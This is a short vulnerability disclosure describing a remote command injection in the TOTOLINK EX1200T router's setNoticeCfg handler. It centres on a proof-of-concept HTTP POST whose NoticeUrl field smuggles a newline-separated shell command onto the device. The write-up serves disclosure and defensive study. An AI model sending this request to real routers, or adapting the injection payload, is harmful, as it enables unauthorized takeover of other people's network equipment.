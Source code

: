 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setNoticeCfg` of the file `lib/system.so` , we can control the`NoticeUrl` to attack.

![image-20211019163103730](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163103730.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setNoticeCfg",
"NoticeEnabled":"1",
"NoticeUrl":"1.1.1.1\nps>/web_cste/test1\necho",
"BtnName":"Click here to continue",
"NoticeTimeoutVal":"120"
}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)